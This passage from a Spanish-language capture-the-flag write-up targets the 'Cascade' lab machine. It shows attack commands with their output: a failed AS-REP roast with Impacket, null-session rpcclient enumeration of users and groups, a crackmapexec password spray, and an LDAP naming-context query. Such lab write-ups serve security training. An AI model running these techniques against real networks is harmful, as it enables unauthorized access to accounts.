 Los almaceno en un nuevo diccionario

Intento realizar un ASPRepRoast Attack, pero todos requieren de autenticación previa de Kerberos

```null
GetNPUsers.py cascade.local/ -no-pass -usersfile valid_users
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User j.goodhand doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a.turnbull doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User util doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User r.thompson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User s.hickson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User s.smith doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User arksvc doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j.wakefield doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j.allen doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User d.burman doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User BackupSvc doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Listo los grupos existentes

```null
rpcclient -U "" 10.10.10.182 -N
rpcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Group Policy Creator Owners] rid:[0x208]
group:[DnsUpdateProxy] rid:[0x44f]
```

Extraigo información para cada usuario y lo exporto en un archivo

```null
rpcclient -U "" 10.10.10.182 -N -c 'enumdomusers' | grep -oP '\[.*?\]' | tr -d '[]' | grep  x > rids
for rid in $(cat rids); do rpcclient -U "" 10.10.10.182 -N -c "queryuser $rid"; done > usersenum
```

Destaca que todos los usuarios tengan un LogonScript, llamado MapAuditDrive.vbs

Efectúo un Password Spraying, utilizando el mismo diccionario de usuarios como contraseñas

```null
crackmapexec smb 10.10.10.182 -u valid_users -p valid_users | grep -v "-"
```

Ninguna es válida


## Puerto 389 (LDAP)

No tengo credenciales válidas pero puedo extraer los namingcontexts

```null
ldapsearch -H ldap://10.10.10.182:389/ -x -s base namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingContexts: DC=cascade,DC=local
namingContexts: CN=Configuration,DC=cascade,DC=local
```